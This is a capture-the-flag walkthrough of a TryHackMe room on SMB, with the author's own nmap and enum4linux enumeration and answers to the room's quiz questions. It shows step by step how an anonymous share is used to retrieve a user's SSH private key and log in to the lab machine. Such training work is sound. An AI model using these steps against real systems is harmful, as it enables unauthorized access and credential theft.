

# Network Services

Learn about, then enumerate and exploit a variety of network services and misconfigurations.

# [Task 1] Get Connected

Hello and welcome!

This room will explore common Network Service vulnerabilities and misconfigurations, but in order to do that, we'll need to do a few things first!

A basic knowledge of Linux, and how to navigate the Linux file system, is required for this room. If you think you'll need some help with this, try completing the 'Learn Linux' room (https://tryhackme.com/room/zthlinux)

1. Connect to the TryHackMe OpenVPN Server (See https://tryhackme.com/access for help!)
2. Make sure you're sitting comfortably, and have a cup of Tea, Coffee or Water close!

Now, let's move on!

N.B. This is not a room on WiFi access hacking or hijacking, rather how to gain unauthorized access to a machine by exploiting network services. If you are interested in WiFi hacking, I suggest checking out WiFi Hacking 101 by NinjaJc01 (https://tryhackme.com/room/wifihacking101)

# [Task 2] Understanding SMB

**What is SMB?**

SMB - Server Message Block Protocol - is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network. [source]

Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network. Client computers may have their own hard disks, but they also want access to the shared file systems and printers on the servers.

The SMB protocol is known as a response-request protocol, meaning that it transmits multiple messages between the client and server to establish a connection. Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.

**How does SMB work?**

Once they have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.

**What runs SMB?**

Microsoft Windows operating systems since Windows 95 have included client and server SMB protocol support. Samba, an open source server that supports the SMB protocol, was released for Unix systems.

## #2.1 - What does SMB stand for?    

Answer: `server message block`

## #2.2 - What type of protocol is SMB?    

Answer: `response-request`

## #2.3 - What do clients connect to servers using?    

Answer: `tcp/ip`

## #2.4 - What systems does Samba run on?

Answer: `unix`

# [Task 3] Enumerating SMB

**Lets Get Started**

Before we begin, make sure to deploy the room and give it some time to boot. Please be aware, this can take up to five minutes so be patient!

**Enumeration**

Enumeration is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.

This process is essential for an attack to be successful, as wasting time with exploits that either don't work or can crash the system can be a waste of energy. Enumeration can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.

**SMB**

Typically, there are SMB share drives on a server that can be connected to and used to view or transfer files. SMB can often be a great starting point for an attacker looking to discover sensitive information — you'd be surprised what is sometimes included on these shares.

**Port Scanning**

The first step of enumeration is to conduct a port scan, to find out as much information as you can about the services, applications, structure and operating system of the target machine. You can go as in depth as you like on this, however I suggest using nmap with the -A and -p- tags.

* `-A`: Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one
* `-p-`: Enables scanning across all ports, not just the top 1000

If you'd like to learn more about nmap in more detail, I recommend checking out DarkStar's room on the topic, as part of the Red Primer series [here](https://tryhackme.com/room/rpnmap).

**Enum4Linux**

Enum4linux is a tool used to enumerate SMB shares on both Windows and Linux systems. It is basically a wrapper around the tools in the Samba package and makes it easy to quickly extract information from the target pertaining to SMB. It's installed by default on Parrot and Kali, however if you need to install it, you can do so from the official [github](https://github.com/portcullislabs/enum4linux).

The syntax of Enum4Linux is nice and simple: "enum4linux [options] ip"

* `-U`: get userlist
* `-M`: get machine list
* `-N`: get namelist dump (different from -U and-M)
* `-S`: get sharelist
* `-P`: get password policy information
* `-G`: get group and member list
* `-A`: all of the above (full basic enumeration)

Now we understand our enumeration tools, lets get started!

## #2.1 - Conduct an nmap scan of your choosing, How many ports are open?

Let's do a full Nmap scan:

~~~
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 91:df:5c:7c:26:22:6e:90:23:a7:7d:fa:5c:e1:c2:52 (RSA)
|   256 86:57:f5:2a:f7:86:9c:cf:02:c1:ac:bc:34:90:6b:01 (ECDSA)
|_  256 81:e3:cc:e7:c9:3c:75:d7:fb:e0:86:a0:01:41:77:81 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: POLOSMB; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: POLOSMB, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: polosmb
|   NetBIOS computer name: POLOSMB\x00
|   Domain name: \x00
|   FQDN: polosmb
|_  System time: 2020-06-16T17:34:16+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-16T17:34:16
|_  start_date: N/A
~~~

there are 3 open ports.

## #2.2 - What ports is SMB running on?

Answer: `139/445`

## #2.3 - Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the workgroup name?    

~~~
$ ./enum4linux.pl -a 10.10.234.125
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Jun 16 20:09:42 2020

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.234.125
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ===================================================== 
|    Enumerating Workgroup/Domain on 10.10.234.125    |
 ===================================================== 
[+] Got domain/workgroup name: WORKGROUP

[REDACTED]
~~~

Answer: `WORKGROUP`

## #2.4 - What comes up as the name of the machine?        

*Hint: Look under OS information, it might be hard to spot!*

Below is an extract of the previous script, showing the OS information:

~~~
 ======================================= 
|    OS information on 10.10.234.125    |
 ======================================= 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 10.10.234.125 from smbclient: 
[+] Got OS info for 10.10.234.125 from srvinfo:
	POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
	platform_id     :	500
	os version      :	6.1
	server type     :	0x809a03
~~~

Answer: `POLOSMB`

## #2.5 - What operating system version is running?    

The version is also provided by the previous extract.

Answer: `6.1`

## #2.6 - What share sticks out as something we might want to investigate?    

Below is an extract of the share enumeration section of the script:

~~~
 ========================================== 
|    Share Enumeration on 10.10.234.125    |
 ========================================== 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      Network Logon Service
	profiles        Disk      Users profiles
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (polosmb server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 10.10.234.125
//10.10.234.125/netlogon	[E] Can't understand response:
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
//10.10.234.125/profiles	Mapping: OK, Listing: OK
//10.10.234.125/print$	Mapping: DENIED, Listing: N/A
//10.10.234.125/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
~~~

Answer: `profiles`

# [Task 4] Exploiting SMB

**Types of SMB Exploit**

While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system. In this case, we're going to be exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

**Method Breakdown**

So, from our enumeration stage, we know:
* The SMB share location
* The name of an interesting SMB share

**SMBClient**

Because we're trying to access an SMB share, we need a client to access resources on servers. We will be using SMBClient because it's part of the default samba suite. While it is available by default on Kali and Parrot, if you do need to install it, you can find the documentation [here](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).

We can remotely access the SMB share using the syntax:

`smbclient //[IP]/[SHARE]`

Followed by the tags:
* `-U [name]`: to specify the user
* `-p [port]`: to specify the port

Got it? Okay, let's do this!

## #4.1 - What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

Answer: `smbclient //10.10.10.2/secret -U suit -p 445`

## #4.2 - Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability.

No answer here

## #4.3

**Lets see if our interesting share has been configured to allow anonymous access, i.e. it doesn't require authentication to view the files. We can do this easily by:
* using the username "Anonymous"
* connecting to the share we found during the enumeration stage
* and not supplying a password.**

**Does the share allow anonymous access? Y/N?**

We can connect without providing a password, which proves that the network share allows anonymous access:

~~~
$ smbclient //10.10.234.125/profiles
Enter SAMBA\unknown's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 12:49:56 2020
  .cache                             DH        0  Tue Apr 21 13:08:23 2020
  .profile                            H      807  Tue Apr 21 13:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 13:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 13:08:23 2020
  .viminfo                            H      947  Tue Apr 21 13:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 13:08:23 2020
  .ssh                               DH        0  Tue Apr 21 13:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 13:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 13:08:23 2020

		12316808 blocks of size 1024. 7584024 blocks available
smb: \> 
~~~

Asnwer: `Y`

## #4.4 - Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

Let's download the interesting document:

~~~
smb: \> get "Working From Home Information.txt"
getting file \Working From Home Information.txt of size 358 as Working From Home Information.txt (1.8 KiloBytes/sec) (average 1.8 KiloBytes/sec)
smb: \>
~~~

Now, let's see what the document contains:

~~~
$ cat Working\ From\ Home\ Information.txt 
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager 
~~~

Answer: `John Cactus`

## #4.5 - What service has been configured to allow him to work from home?

The message says: `your account has now been enabled with ssh access to the main server.`

Answer: `ssh`

## #4.6 - Okay! Now we know this, what directory on the share should we look in?

Answer: `.ssh`

## #4.7 - This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

*Hint: What is the default name of an SSH identity file?*

~~~
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 13:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 13:08:23 2020

		12316808 blocks of size 1024. 7584024 blocks available
~~~

## #4.8

**Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".**

**Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.**

**What is the smb.txt flag?**

Let's get John Cactus' SSH private key:

~~~
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (5.3 KiloBytes/sec) (average 5.3 KiloBytes/sec)
smb: \.ssh\>
~~~

Now, let's give it the proper rights:

~~~
$ chmod 600 id_rsa 
~~~

And now, guess the name to connect. After trying unsuccessfully with `john`, `johncactus` and `jcactus`, I successfully connected with `cactus`:

~~~
$ ssh -i id_rsa cactus@10.10.234.125
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 16 18:37:00 UTC 2020

  System load:  0.0                Processes:           92
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.234.125
  Swap usage:   0%

22 packages can be updated.
0 updates are security updates.

Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ cat smb.txt 
THM{smb_is_fun_eh?}
~~~
